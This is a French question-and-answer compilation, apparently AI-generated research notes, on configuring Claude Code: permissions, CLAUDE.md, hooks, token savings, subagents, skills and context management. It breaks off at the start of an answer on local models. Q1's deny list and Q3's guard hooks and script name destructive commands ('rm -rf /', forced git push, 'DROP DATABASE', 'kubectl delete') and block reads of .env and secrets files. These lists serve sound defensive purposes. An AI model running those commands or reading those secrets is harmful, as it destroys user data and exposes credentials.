

# Moisson — améliorer Claude Code

Source : Antigravity CLI (`agy`, recherche web). 15 questions.

## Q1 — Quels sont les réglages de settings.json de Claude Code les plus sous-utilisés qui améliorent le plus la productivité au quotidien ?

Voici les réglages de configuration `settings.json` (et `.claude/settings.local.json`) de **Claude Code** les plus sous-exploités, qui transforment l'expérience quotidienne en éliminant les frictions d'approbation et en automatisant le cycle de développement :

---

### 1. Les Hooks de cycle de vie (`hooks`) : L'automatisation déterministe
Plutôt que d'espérer que l'agent respecte des consignes de formatage par prompt (probabiliste), les **hooks** exécutent de vrais processus OS à des étapes clés :
* **`PostToolUse`** : Déclenche automatiquement un formateur/linter (ex. `ruff`, `prettier`, `biome`) dès que Claude modifie un fichier, évitant les allers-retours de style.
* **`PreToolUse`** : Intercepte les commandes Bash avant exécution pour bloquer les patterns à risque ou injecter des variables d'environnement.
* **`Stop`** : Lance les tests unitaires ciblés ou notifie la fin de la tâche.

### 2. Le mode d'autonomie contrôlé (`permissions.defaultMode` + `allow`)
La **fatigue d'approbation** (valider chaque commande manuellement) fait perdre un temps précieux :
* **`"defaultMode": "acceptEdits"`** : Approuve automatiquement toutes les modifications de fichiers, mais demande confirmation pour les commandes shell.
* **Allowlist granulaire (`permissions.allow`)** : Pré-autorise les commandes de lecture, de test et de statut sans jamais interrompre le flux (`"Bash(git status*)"`, `"Bash(pytest*)"`, `"Bash(npm test*)"`).

### 3. Le blocage strict de tokens et secrets (`permissions.deny`)
Claude Code a tendance à inspecter tous les fichiers du projet lors de recherches larges :
* Bloquer l'accès aux variables d'environnement et répertoires lourds (`"Read(./.env*)"`, `"Read(./secrets/**)"`, `"Read(./dist/**)"`) **économise énormément de tokens de contexte** et protège vos identifiants.
* L'évaluation se fait dans l'ordre strict : **Deny > Ask > Allow**.

### 4. La fusion d'héritage avec `"$defaults"`
Lorsqu'on redéfinit des tableaux de permissions (`allow` ou `deny`), ajouter `"$defaults"` permet de conserver la liste sécurisée intégrée d'Anthropic tout en injectant vos propres règles, au lieu d'écraser complètement les protections natives.

### 5. Les serveurs MCP scopés par projet (`mcpServers`)
Configurer les serveurs MCP directement dans `.claude/settings.json` au niveau du dépôt plutôt que globalement :
* Permet à Claude d'accéder aux bases de données locales, schémas OpenAPI ou outils internes spécifiques au projet sans polluer votre configuration globale `~/.claude/settings.json`.

### 6. La séparation stricte `.claude/settings.json` vs `.local.json`
* **`.claude/settings.json` (commité)** : Standardise les hooks (linters) et les permissions sécurisées pour toute l'équipe.
* **`.claude/settings.local.json` (ignoré par Git)** : Permet d'activer des modes plus permissifs (ex. `"defaultMode": "dontAsk"` ou `"bypassPermissions"` dans un container sandbox) sans impacter les collègues.

---

### Modèle `settings.json` optimisé prêt à l'emploi

```json
{
  "permissions": {
    "defaultMode": "acceptEdits",
    "allow": [
      "$defaults",
      "Bash(git status*)",
      "Bash(git diff*)",
      "Bash(pytest*)",
      "Bash(npm test*)",
      "Bash(cargo check*)"
    ],
    "deny": [
      "$defaults",
      "Read(./.env*)",
      "Read(./secrets/**)",
      "Bash(rm -rf /)",
      "Bash(git push*--force*)"
    ]
  },
  "hooks": {
    "PostToolUse": [
      {
        "matcher": "Edit|Write",
        "command": "npx prettier --write \"$FILE_PATH\" 2>/dev/null || true"
      }
    ]
  }
}
```

---

### Sources
* [Anthropic Claude Code Documentation – Settings & Configuration](https://docs.anthropic.com/en/docs/agents-and-tools/claude-code/overview)
* [Claude Code Permissions and Security Architecture](https://docs.anthropic.com/en/docs/agents-and-tools/claude-code/permissions)
* [Claude Code Lifecycle Hooks & Automation Best Practices](https://github.com/anthropics/claude-code)

---
## Q2 — Comment structurer un CLAUDE.md pour qu'il soit réellement suivi par le modèle, et quelles erreurs le rendent inefficace ou contre-productif ?

Pour qu’un fichier `CLAUDE.md` soit respecté sans dérive et optimise le comportement de Claude Code / Claude Agent, il doit être conçu comme un **manuel opérationnel à haute densité informative**, et non comme une documentation classique.

---

### 1. Structure optimale pour un `CLAUDE.md` efficace

La règle d’or : **rester sous 100 à 150 lignes** (Signal-to-Noise Ratio maximal). Tout ce que le modèle peut déduire en lisant un fichier de config ou le code existant doit être banni.

```markdown
# [Nom du Projet] — Architecture & Directives Agent

## 1. Context & Tech Stack (3-4 lignes max)
- Rôle / Domaine du projet.
- Stack principale et versions clés (ex: Next.js 15 App Router, Drizzle ORM, TypeScript strict).

## 2. Commandes de Validation (Cheat Sheet Actionnable)
- Build : `pnpm build`
- Dev : `pnpm dev`
- Tests unitaires : `pytest -m "not integration" -q`
- Lint/Typecheck : `pnpm typecheck && pnpm lint --fix`

## 3. Cartographie & Emplacements Clés (Directory Map)
- `/src/core` : Logique métier pure (zéro dépendance framework).
- `/src/adapters` : Intégrations externes & APIs.
- `/src/tests/factories` : Générateurs de mock (ne jamais coder de mocks inline).

## 4. Règles & Contraintes Impératives ("Never" & "Always")
- TOUJOURS exécuter les tests unitaires avant de marquer une tâche comme terminée.
- Ne JAMAIS introduire de cast `as unknown as T` ; typer explicitement via Zod.
- Ne JAMAIS installer de dépendances sans vérifier la compatibilité ESM.

## 5. Spécificités & Pièges Métier (Gotchas non-évidents)
- Les timestamps en base sont stockés en millisecondes UTC, pas en microsecondes.
- Toute modification de schéma SQLite exige l'exécution du script `scripts/migrate.py`.
```

---

### 2. Principes pour forcer l'obéissance du modèle

1. **Impératif strict vs Formulations polies** :
   - ❌ *« Nous préférons éviter les mocks inline autant que possible. »* (Ignoré à 80%).
   - ✅ *« Interdiction stricte d’écrire des mocks inline : importer depuis `src/test/factories`. »*
2. **Le "Delete Test"** :
   - Pour chaque ligne, demandez-vous : *« Si j’efface cette ligne, Claude va-t-il casser le code ? »* Si la réponse est non, supprimez-la.
3. **Fournir les commandes de boucle de rétroaction (Self-Correction Loop)** :
   - Un modèle suit mieux les règles s'il dispose de la commande exacte pour vérifier son propre travail (`typecheck`, `test`, `linter`).
4. **Hiérarchisation & Modularité** :
   - **Global** : `~/.claude/CLAUDE.md` (préférences dev globales, style de commit).
   - **Projet** : `./CLAUDE.md` (standards de l'équipe, architecture).
   - **Sous-dossiers / Monorepo** : `./packages/api/CLAUDE.md` (spécifique au package).
   - **Règles complexes** : Déporter vers des règles à la demande (`.claude/rules/*.md` ou Skills dédiés) plutôt que de saturer le fichier principal.
   - **Local personnel** : `CLAUDE.local.md` (ignoré par Git pour vos overrides persos).

---

### 3. Erreurs majeures rendant le `CLAUDE.md` inefficace ou contre-productif

| Erreur | Impact négatif | Correction |
| :--- | :--- | :--- |
| **Token Bloat (> 200-300 lignes)** | Dilution d'attention (*Lost-in-the-Middle*) ; le modèle ignore les consignes critiques du milieu. | Réduire drastiquement ; déporter dans des Skills ou docs à la demande. |
| **Redondance avec le code** | Gaspillage de contexte (ex: expliquer ce que fait `tsconfig.json` ou lister tous les endpoints). | Expliquer uniquement les anomalies et règles invisibles à la simple lecture du code. |
| **Micro-management de style** | Conflits constants avec les formatters existants (Prettier/Ruff). | Déléguer le style aux linters (`npm run lint:fix`) et réserver le fichier aux choix d'architecture. |
| **Règles contradictoires / Obsolètes** | Hallucinations et hésitations de l'agent lors de refactorisations. | Auditer et purger le `CLAUDE.md` à chaque changement d'architecture majeur. |
| **Manque de délimitation de sécurité** | Risque d'exécution aveugle de scripts destructeurs ou de fuite de variables `.env`. | Spécifier les dossiers ignorés (`.claudeignore`) et expliciter les commandes interdites. |

---

### Sources & Références

- **Anthropic Claude Code Official Documentation (2025–2026)** : *Managing Memory, Project Context, and CLAUDE.md Guidelines* (`docs.anthropic.com`).
- **Anthropic Security & Prompt Injection Advisory for Coding Agents (2025–2026)** : *Indirect Injection Defense & Sandboxing Permissions*.
- **Claude Code Best Practices & Repository Rulesets** : Communauté et retours d'expérience sur l'ingénierie d'agents de code et le prompt drift.

---
## Q3 — Quels hooks Claude Code (PreToolUse, PostToolUse, UserPromptSubmit, Stop, SessionStart) apportent le plus de valeur, avec des exemples concrets de configuration ?

Les **hooks Claude Code** constituent une couche de contrôle déterministe (garde-fous programmatiques). Contrairement aux instructions en langage naturel de `CLAUDE.md`, les hooks s'exécutent systématiquement via le shell ou des scripts externes en consommant un payload JSON sur `stdin` et en communiquant via `stdout`/`stderr` :
- **Exit Code `0`** : Succès, poursuite de l'exécution.
- **Exit Code `2`** : Blocage actif de l'action, le contenu de `stderr` est renvoyé à Claude comme feedback correctif.

Voici les 5 hooks majeurs classés par apport de valeur, avec leurs cas d'usage et configurations dans `.claude/settings.json`.

---

### 1. `PreToolUse` — *Valeur Maximale : Sécurité & Garde-Fous Déterministes*
* **Rôle** : S'exécute **avant** l'appel d'un outil (`Bash`, `Write`, `Edit`, `Glob`, etc.). Permet d'empêcher les commandes destructives (`rm -rf`, `drop table`), la fuite de secrets ou la modification de fichiers protégés (`.env`, `id_rsa`, production configs).
* **Exemple de configuration** :
```json
{
  "hooks": {
    "PreToolUse": [
      {
        "matcher": "Bash",
        "hooks": [
          {
            "type": "command",
            "command": "python3 .claude/hooks/guard_bash.py"
          }
        ]
      },
      {
        "matcher": "Edit|Write",
        "hooks": [
          {
            "type": "command",
            "command": "sh -c 'jq -e \".tool_input.file_path | test(\\\"(\\\\.env|secrets/)\\\")\" <<< \"$CLAUDE_TOOL_PAYLOAD\" && echo \"Accès interdit aux fichiers secrets\" >&2 && exit 2 || exit 0'"
          }
        ]
      }
    ]
  }
}
```
* **Script `guard_bash.py` (Exemple)** :
```python
import sys, json

payload = json.load(sys.stdin)
cmd = payload.get("tool_input", {}).get("command", "")
forbidden = ["rm -rf /", "git push --force", "DROP DATABASE", "kubectl delete"]

if any(f in cmd for f in forbidden):
    sys.stderr.write(f"ERREUR SÉCURITÉ : La commande '{cmd}' est interdite par la politique de sécurité.")
    sys.exit(2)
sys.exit(0)
```

---

### 2. `PostToolUse` — *Valeur Très Élevée : Auto-Formatage, Linting & Audit Trail*
* **Rôle** : S'exécute **après** le succès d'un outil. Automatise le formatage immédiat du code produit (Prettier, Black, Ruff) ou journalise les opérations pour l'audit et l'observabilité.
* **Exemple de configuration** :
```json
{
  "hooks": {
    "PostToolUse": [
      {
        "matcher": "Edit|Write",
        "hooks": [
          {
            "type": "command",
            "command": "python3 -c 'import sys, json, os; p=json.load(sys.stdin).get(\"tool_input\",{}).get(\"file_path\"); os.system(f\"npx prettier --write {p} 2>/dev/null || true\") if p else None'"
          }
        ]
      }
    ]
  }
}
```

---

### 3. `Stop` — *Valeur Opérationnelle : Boucle de Rétroaction Continue & Alertes*
* **Rôle** : Déclenché quand Claude Code termine un tour. 
  1. **Validation continue** : Lancer la suite de tests unitaires ; si elle échoue, renvoyer `exit 2` avec la stack trace pour forcer Claude à corriger son code avant de s'arrêter.
  2. **Notification** : Alerter (Slack, Webhook, TTS) dès qu'une tâche longue est terminée.
* **Exemple de configuration** :
```json
{
  "hooks": {
    "Stop": [
      {
        "hooks": [
          {
            "type": "command",
            "command": "pytest -q || (echo 'Des tests échouent, corrige-les avant de conclure :' >&2 && pytest --maxfail=1 >&2 && exit 2)"
          },
          {
            "type": "command",
            "command": "notify-send 'Claude Code' 'Tâche terminée'"
          }
        ]
      }
    ]
  }
}
```

---

### 4. `UserPromptSubmit` — *Valeur Stratégique : Injection Dynamique de Contexte*
* **Rôle** : Déclenché dès la soumission du prompt utilisateur avant traitement par le modèle. Permet d'injecter automatiquement des métadonnées temps réel (branche Git active, commits récents, statut d'un cluster, etc.).
* **Exemple de configuration** :
```json
{
  "hooks": {
    "UserPromptSubmit": [
      {
        "hooks": [
          {
            "type": "command",
            "command": "python3 -c 'import json, subprocess; print(json.dumps({\"additionalContext\": \"Git Branch: \" + subprocess.getoutput(\"git branch --show-current\")}))'"
          }
        ]
      }
    ]
  }
}
```

---

### 5. `SessionStart` — *Valeur d'Initialisation : Warmup & Télémétrie*
* **Rôle** : S'exécute au lancement ou à la reprise d'une session (`startup` ou `resume`). Permet de vérifier les prérequis locaux (serveurs Docker up, variables d'environnement, dépendances) et d'initialiser une session d'observabilité.
* **Exemple de configuration** :
```json
{
  "hooks": {
    "SessionStart": [
      {
        "hooks": [
          {
            "type": "command",
            "command": "docker compose ps --services --filter 'status=running' >/dev/null || docker compose up -d"
          }
        ]
      }
    ]
  }
}
```

---

### Synthèse comparative

| Hook | Cadence | Capacité de Blocage (`exit 2`) | Cas d'Usage Idéal |
| :--- | :--- | :---: | :--- |
| **`PreToolUse`** | Par appel d'outil | **Oui** | Bloqueur de sécurité (commandes dangereuses, secrets). |
| **`PostToolUse`** | Par succès d'outil | Non | Formatage automatique (`prettier`, `black`), linting, audit. |
| **`Stop`** | En fin de tour | **Oui** | Validation finale (tests auto) et notification externe. |
| **`UserPromptSubmit`** | Par prompt utilisateur | **Oui** | Enrichissement du contexte (Git, DB status, tickets). |
| **`SessionStart`** | 1 fois / session | Non | Setup d'environnement, vérification des conteneurs/services. |

---

### Sources
* [Documentation officielle Anthropic Claude Code Hooks](https://docs.claude.com/en/docs/claude-code/hooks)
* [ShipLight AI — Architecture & Guide des Hooks Claude Code](https://shiplight.ai)
* [Pushary — Claude Code Lifecycle Events & Guardrails Pattern](https://pushary.com)
* [Claude Fast — Building deterministic workflows with Claude Code Hooks](https://claudefa.st)

---
## Q4 — Comment réduire drastiquement la consommation de tokens dans Claude Code sans perdre en qualité : quelles techniques concrètes fonctionnent réellement ?

Pour réduire drastiquement (de **40 % à 80 %**) la consommation de tokens dans **Claude Code** sans dégrader la précision du code produit, voici les techniques concrètes, validées et directement applicables :

---

### 1. Exploiter à 100 % le Prompt Caching d'Anthropic
Le Prompt Caching réduit jusqu'à **90 % le coût des tokens d'entrée** sur les requêtes consécutives, à condition de respecter la stabilité du préfixe.
* **Maximiser la stabilité du début de prompt :** Ne modifiez pas votre configuration globale en cours de session. Tout changement dans le prompt système casse le cache pour les tours suivants.
* **Respecter le TTL (5 minutes) :** Si vous restez inactif plus de 5 minutes entre deux requêtes, le cache KV expire et le rechargement complet est refacturé au tarif plein (avec surcoût de cache write). Enchaînez vos prompts sur une même tâche.

---

### 2. Dégraisser `CLAUDE.md` et externaliser dans des *Skills*
`CLAUDE.md` est injecté au tout début de **chaque tour de conversation**. Chaque ligne superflue agit comme une taxe récurrente.
* **Plafond strict : < 1 500 – 2 000 tokens.** Supprimez les documentations d'API complètes, les historiques de versions ou les cartographies de dossiers.
* **Règles de sortie ultra-laconiques :** Forcez Claude à couper le bavardage dans `CLAUDE.md` :
  ```markdown
  - Réponds de manière concise, directe et factuelle.
  - Aucun texte de politesse, d'introduction ou de conclusion ("Bien sûr", "J'espère que cela aide").
  - Fournis uniquement les blocs de code ou diffs nécessaires.
  ```
* **Transformer la doc en Skills (Lazy Loading) :** Déplacez les règles spécifiques (ex: déploiement AWS, migrations SQL, règles UI) dans des fichiers de *Skills* ou documentations modulaires appelés uniquement à la demande.

---

### 3. Verrouiller l'indexation avec `.claudeignore`
Empêchez le modèle de lire et indexer des volumes massifs de données inutiles.
* Créez un fichier `.claudeignore` à la racine du projet pour exclure :
  ```gitignore
  node_modules/
  dist/
  build/
  *.min.js
  *.lock
  *.log
  .git/
  coverage/
  tmp/
  __pycache__/
  tests/fixtures/large_payloads/
  ```

---

### 4. Réduire le bruit des outils et des commandes CLI
Les sorties de terminal brutes représentent souvent la première cause invisible d'explosion du contexte.
* **Filtrer systématiquement les commandes shell :** Ne laissez jamais Claude exécuter un test ou une recherche sans filtre.
  * Préférez `pytest -q --tb=short` ou `pytest -k test_specifique` à un `pytest` global verbeux.
  * Tronquez les logs volumineux : `git diff --stat`, `grep -n -m 5`, `head -n 30`.
* **Ciblage chirurgical des prompts :** Évitez les requêtes vagues (*"Trouve où est le bug d'authentification"* qui force 10 tool calls de lecture de fichiers). Donnez le chemin précis : *"Corrige l'exception levée sur `verify_token` dans `src/auth/jwt.py`"*.

---

### 5. Nettoyage proactif de la session (`/clear`, `/compact`, `/context`)
L'accumulation des faux départs, tests échoués et lectures de fichiers pollue le contexte et dégrade la précision (bruit d'attention).
* **Règle du basculement :** Dès qu'une tâche est achevée ou que vous changez de feature, tapez `/clear` pour vider l'historique et repartir sur un contexte vierge.
* **Compacter avant la saturation :** Dès que la session atteint 60–70 % de la fenêtre de contexte, lancez `/compact` pour résumer l'historique tout en conservant l'état des décisions.
* **Auditer avec `/context` et `/cost` :** Identifiez immédiatement les fichiers ou schémas volumineux qui saturent la mémoire.

---

### 6. Désactiver les serveurs MCP et sous-agents superflus
* **Le piège des schémas MCP :** Chaque serveur MCP connecté injecte l'intégralité de ses schémas d'outils JSON au début du prompt. Déconnectez via `/mcp` les serveurs inactifs pour la tâche en cours (Playwright, DB, Puppeteer).
* **Activer le Tool Search :** Si votre installation le supporte, activez `ENABLE_TOOL_SEARCH` pour charger les définitions d'outils à la volée plutôt qu'au démarrage.
* **Gérer la mémoire de fond :** Désactivez l'extraction automatique de mémoire (`/memory`) si elle déclenche des appels LLM invisibles non pertinents.

---

### 7. Verrouiller la trajectoire avec le *Plan Mode*
* Les itérations de correction de code erroné coûtent le double (tokens d'entrée accumulés + tokens de sortie régénérés).
* Sur toute modification structurelle ou complexe, commencez par le mode **Plan** : forcez la validation de l'architecture avant la moindre écriture de code.

---

### Sources & Références
- **Anthropic Documentation** : *Prompt Caching in Claude & Claude Code Architecture* (2025–2026).
- **Anthropic Engineering Best Practices** : *Managing Context Windows and Tool Token Overhead in Coding Agents*.
- **Claude Code CLI Reference & Community Benchmarks** : *Session Management, `.claudeignore` rules, and MCP optimization guides* (GitHub / Anthropic Developer Forum).

---
## Q5 — Quelles sont les meilleures pratiques 2026 pour écrire des subagents Claude Code efficaces, et quand un subagent est-il contre-productif ?

Voici la synthèse opérationnelle des meilleures pratiques et des pièges à éviter pour l'orchestration de **subagents sous Claude Code (2026)**.

---

### 1. Meilleures pratiques pour des Subagents Claude Code efficaces

* **Architecture Coordinateur / Worker (Manager Pattern)** :
  * Laisser l'agent principal (Coordinateur) analyser, planifier (*Plan mode*) et découper l'objectif global en tâches atomiques.
  * Déléguer l'exécution à des subagents spécialisés plutôt que d'exécuter des workflows tentaculaires dans la session racine.
* **Isolation du contexte & Principe de moindre privilège** :
  * **Nettoyage de contexte** : Utiliser un subagent pour absorber les opérations verbeuses (recherches récursives `grep`, logs d'erreurs massifs, suites de tests) afin de ne renvoyer qu'une synthèse filtrée au coordinateur.
  * **Outils restreints** : Attribuer uniquement les outils nécessaires (`tools: [Read, Grep]` pour un reviewer/auditeur ; interdire `Bash` ou `Write` si la tâche est purement analytique).
* **Définition déclarative standardisée (`.claude/agents/*.md`)** :
  * Structurer les agents via un frontmatter YAML explicite (modèle cible, outils autorisés, mode de permissions) et un prompt d'instructions focalisé sur un persona technique précis.
* **Le Triptyque moderne : Subagents + Skills + Hooks** :
  * **Skills** : Fournissent les procédures et recettes réutilisables.
  * **Hooks** : Déclenchent automatiquement des gardes-fous (ex: audit de sécurité ou vérification des tests après modification de code).
  * **Subagents** : Servent d'unités d'exécution isolées.
* **Parallélisation (Fan-out) & Grader Pattern** :
  * Lancer en parallèle plusieurs agents indépendants (ex: revue de sécurité, analyse de performances, rédaction de tests unitaires).
  * Implémenter un agent *Grader/Evaluator* chargé de valider que la réponse du worker respecte le cahier des charges avant réintégration dans la branche principale.
* **Guardrails budgétaires et boucles d'arrêt** :
  * Définir des conditions de terminaison explicites (`SubagentStop`) et des limites de budget de tokens pour bloquer les cascades d'appels récursifs infinis.

---

### 2. Quand un Subagent est-il contre-productif ? (Anti-patterns)

| Cas de figure | Pourquoi c'est contre-productif | Alternative recommandée |
| :--- | :--- | :--- |
| **Micro-tâches ou wrappers d'outils simples** | L'initialisation du contexte, le parsing du prompt et le passage de messages coûtent plus cher en temps/tokens que la tâche elle-même. | Exécuter directement l'outil via l'agent principal. |
| **Tâches séquentielles à forte interdépendance** | Si l'étape B dépend du raisonnement implicite de l'étape A, le transfert partiel d'informations entre agents engendre des pertes de contexte et des hallucinations. | Conserver la logique séquentielle dans un même contexte. |
| **Hiérarchies trop profondes (Sub-subagents)** | Dilution de la consigne initiale de l'utilisateur (*prompt drift*) et latence d'exécution exponentielle. | Maintenir une hiérarchie plate à 1 niveau (Coordinateur → Workers). |
| **Modifications atomiques de code sans parallélisme** | Risque de conflits d'édition concourante de fichiers si plusieurs subagents écrivent sans synchronisation stricte. | Isoler l'écriture à un seul worker ou brancher sur des workspaces isolés. |

---

### Sources
- [Anthropic Claude Documentation - Subagents & Multi-Agent Architecture](https://claude.com)
- [AY Automate - Multi-Agent Patterns in 2026](https://ayautomate.com)
- [Subagents.sh - Declarative Agent Specifications](https://subagents.sh)
- [Totalum - Production-grade Claude Workflows & Hooks](https://totalum.app)
- [Promptessor - Claude Code Agent Architectures & Context Isolation](https://promptessor.com)

---
## Q6 — Comment bien concevoir une skill Claude Code : structure du SKILL.md, description qui déclenche au bon moment, erreurs fréquentes ?

Pour concevoir une **Skill Claude Code** efficace et robuste (alignée sur le standard ouvert *Agent Skills* / *agentskills.io* en 2026), voici les règles de conception, la structure canonique, les techniques d'activation précise et les pièges à éviter.

---

### 1. Philosophie & Rôle : `CLAUDE.md` vs `SKILL.md`

* **`CLAUDE.md` (Contexte passif)** : Décrit l'état, les faits et les règles permanentes du projet (*"Ce repo utilise pnpm, les commits suivent la convention Angular"*). Il est chargé en permanence.
* **`SKILL.md` (Expertise procédurale à la demande)** : Définit un flux de travail exécutable (SOP — *Standard Operating Procedure*), activé **uniquement** quand le besoin se présente (*"Comment auditer une migration DB"*, *"Comment déployer un composant UI"*).

**Emplacements :**
* Projet : `.claude/skills/<skill-name>/SKILL.md`
* Global (personnel) : `~/.claude/skills/<skill-name>/SKILL.md`

---

### 2. Architecture du dossier & Structure de `SKILL.md`

Adoptez le principe de **Progressive Disclosure** (divulgation progressive) : le fichier `SKILL.md` doit rester sous les 500 lignes. Toute documentation volumineuse ou script lourd doit être déporté dans des sous-fichiers consultés à la demande.

```text
.claude/skills/db-migrator/
├── SKILL.md                 # Point d'entrée (< 500 lignes)
├── references/              # Docs de référence (schémas, règles ORM)
│   └── syntax_guide.md
├── scripts/                 # Scripts utilitaires exécutables par l'agent
│   └── test_migration.sh
└── templates/               # Fichiers types / squelettes
    └── migration_template.py
```

#### Anatomie du fichier `SKILL.md`

```markdown
---
name: db-migrator
description: "Use when creating, validating, or applying database migrations (Alembic/Prisma). Triggers on requests about schema changes, new tables, or 'run migration'."
user-invocable: true
allowed-tools: [run_command, view_file, replace_file_content]
---

# Guide Opérationnel : db-migrator

## Objectif & Prérequis
Vérifier l'état courant de la base avant toute manipulation :
1. Exécuter `./scripts/check_db.sh`.
2. Consulter les conventions dans [syntax_guide.md](references/syntax_guide.md).

## Workflow d'exécution
1. **Analyse du modèle** : Détecter les entités modifiées.
2. **Génération** : Rédiger le script de migration dans `migrations/`.
3. **Validation & Rollback** : Toujours exécuter un test d'application puis de rollback.

## Règles strictes (Gardes-fous)
- JAMAIS de migration destructive (`DROP COLUMN`, `TRUNCATE`) sans double vérification des dépendances.
- Toujours inclure une fonction de `downgrade()` symétrique.

## Critères de succès / Définition de Terminé
- [ ] Le script de migration compile sans erreur.
- [ ] Le test de migration locale passe avec succès.
```

---

### 3. Rédiger une `description` qui déclenche au bon moment

La `description` du frontmatter YAML est le **seul élément injecté dans le contexte initial** pour permettre au routeur LLM de décider s'il doit charger la skill.

#### Formule de description optimale
> **[Action principale] + [Cas d'usage cibles / Mots-clés de l'utilisateur] + [Déclencheurs explicites]**

* ❌ **Trop vague (ne se déclenche jamais ou tout le temps) :**
  `description: "Helps with database tasks and backend code."`
* ❌ **Trop technique / tourné vers l'implémentation :**
  `description: "Executes alembic upgrade head and generates revisions."`
* ✅ **Ciblé, intentionnel et précis :**
  `description: "Use when creating, modifying, testing, or executing database migrations. Triggers on phrases like 'add column', 'alter schema', 'migrate db', 'rollback migration', or when schema files are edited."`

#### Technique avancée : Exemples d'activation `<example>`
Pour éliminer les faux positifs ou faux négatifs sur des skills critiques, insérez des blocs d'exemples dans le corps du prompt :

```markdown
<example>
Context: L'utilisateur demande d'ajouter un champ `phone_number` sur le modèle User.
User: "Ajoute le champ phone_number aux utilisateurs et prépare la base."
Action: Déclencher la skill db-migrator pour générer la migration correspondante.
</example>
```

---

### 4. Erreurs fréquentes & Anti-patterns

| Anti-pattern | Conséquence | Correction |
| :--- | :--- | :--- |
| **Le "Prompt Dump" (> 800 lignes)** | Saturation de la fenêtre de contexte, l'agent oublie les instructions du milieu. | Découper dans `references/` et renvoyer vers ces fichiers avec des liens relatifs. |
| **Absence de critères d'arrêt (*Stop Condition*)** | L'agent boucle ou s'arrête prématurément sans vérifier son travail. | Spécifier une checklist explicite ("Définition de Terminé") avec commandes de vérification. |
| **Chevauchement de scope** | Deux skills se déclenchent en concurrence sur le même prompt. | Rendre chaque skill mono-tâche et préciser les exclusions dans la description (`"Do NOT use for API route generation"`). |
| **Instructions passives / descriptives** | L'agent comprend la théorie mais ne pose pas les actions requises. | Rédiger en impératif orienté flux d'actions étape par étape (Step 1, Step 2...). |
| **Omission des outils requis** | L'agent essaie d'exécuter un script sans avoir accès aux commandes nécessaires. | Vérifier la cohérence entre les outils demandés et les autorisations (`allowed-tools`). |

---

### Sources & Références (2026)
* *Agent Skills Open Standard* — Spécifications officielles & Architecture frontmatter ([agentskills.io](https://agentskills.io))
* *Anthropic Claude Code Documentation* — Guide des Skills & Progressive Disclosure ([claude.com / docs](https://claude.com))
* *Awesome Claude Skills Repository & Meta Skill Creator* ([github.com/anthropics](https://github.com))

---
## Q7 — Quelles sont les stratégies éprouvées de gestion du contexte long dans Claude Code : compaction, /clear, découpage des sessions, mémoire persistante ?

La gestion du contexte long dans **Claude Code** repose sur un principe clé : **la mémoire de travail doit rester légère pour éviter le « Context Rot » et la dégradation du raisonnement**, qui intervient souvent dès 40 % de saturation du contexte.

Voici les stratégies éprouvées et actionnables :

---

### 1. Compaction ciblée (`/compact` et `/rewind`)

* **Compaction proactive (seuil 50–60 %)** : N'attendez pas la compaction automatique d'urgence qui coupe l'exécution. Déclenchez `/compact` dès que la session accumule trop de bruit (sorties de tests, logs, tentatives infructueuses).
* **Compaction orientée (Focus)** : Spécifiez toujours un angle pour préserver l'essentiel :  
  `> /compact focus on the API auth refactoring decisions and remaining tasks`
* **Rembobinage chirurgical (`/rewind` ou `Esc + Esc`)** : Plutôt que de compacter un historique pollué par une fausse piste de debug, faites un rewind vers le point de divergence pour élaguer les branches mortes tout en gardant l'architecture validée.

---

### 2. Découpage des sessions & Nettoyage (`/clear` et `/btw`)

* **La règle du « Fresh Start » (`/clear`)** : Exécutez `/clear` dès qu'un objectif unitaire est achevé (ex. feature terminée, test validé). Ne réutilisez jamais une session pour deux tâches distinctes.
* **Extraction avant purge** : Avant un `/clear`, demandez une synthèse concise des conclusions ou générez une documentation/artefact pour injecter ce résumé dans la session suivante.
* **Requêtes annexes sans pollution (`/btw`)** : Pour poser une question contextuelle rapide (ex. *« que fait ce flag ? »*), utilisez `/btw`. La réponse s'affiche en overlay éphémère et ne consomme aucun token dans la fenêtre principale.

---

### 3. Isolation par Subagents (Tâches bruyantes)

* **Délégation des tâches à haut volume de logs** : Déportez les explorations profondes de codebase, scans de sécurité et exécutions de gros tests sur des subagents dédiés.
* **Synthèse descendante** : Les subagents disposent de leur propre contexte isolé ; ils filtrent le bruit et ne renvoient au processus parent qu'un rapport synthétique directement exploitable.
* **Allègement des serveurs MCP** : Chaque serveur MCP actif injecte ses définitions d'outils à chaque tour. Désactivez les connecteurs non requis pour récupérer de la fenêtre utile.

---

### 4. Hiérarchie de mémoire persistante

| Niveau | Emplacement | Rôle & Bonne pratique |
| :--- | :--- | :--- |
| **Règles statiques** | `CLAUDE.md` (racine) | **Handbook condensé (< 100 lignes)** : conventions, architecture, règles négatives (*"don't"*). Placer les règles critiques en début de fichier. |
| **Mémoire apprise** | `~/.claude/MEMORY.md` | Géré automatiquement par Claude Code. Utilisez `/memory` pour auditer et élaguer régulièrement les notes obsolètes. |
| **Contraintes dures** | Hooks `PreToolUse` | Si Claude ignore `CLAUDE.md` sous forte charge de contexte, contraindre les règles critiques via des hooks système. |

---

### 5. Synthèse des commandes de contrôle

| Commande | Usage actionnable |
| :--- | :--- |
| `/context` | Auditer la répartition des tokens (overhead système, MCP, historique). |
| `/compact [focus]` | Résumer l'historique en priorisant les informations critiques. |
| `/rewind` | Revenir en arrière et supprimer les itérations d'erreurs. |
| `/clear` | Remettre à zéro la fenêtre active pour une nouvelle tâche. |
| `/btw <question>` | Requête hors-contexte (non persistée). |
| `/memory` | Inspecter et éditer la mémoire long-terme. |

---

### Sources
- *Anthropic Claude Code Documentation & CLI Reference (2025–2026)* — Context Management & CLI commands (`/compact`, `/clear`, `/btw`, `/rewind`, `/context`).
- *Anthropic Best Practices for Agentic Memory and `CLAUDE.md` architecture (2026)*.
- *LLM Context Rot Mitigation Strategies in Agentic Workflows (2025–2026)*.

---
## Q8 — Comment brancher des modèles locaux (LM Studio, Ollama) sur Claude Code ou en complément, et quelles sont les limites réelles de cette approche ?

Voici un guide technique et opérationnel pour brancher vos modèles locaux (**LM Studio**, **Ollama**, **vLLM**) sur **Claude Code** ou les utiliser en architecture hybride/complémentaire, accompagné de l'analyse des limites réelles observées sur le terrain.

---

### 1. Branchement direct sur Claude Code

Claude Code communique via l'API **Anthropic Messages** (`/v1/messages`). Le détournement s'effectue en redéfinissant l'endpoint et le token d'authentification via les variables d'environnement.

#### A. Méthode 1 : Via Ollama (Support natif `/v1/messages`)
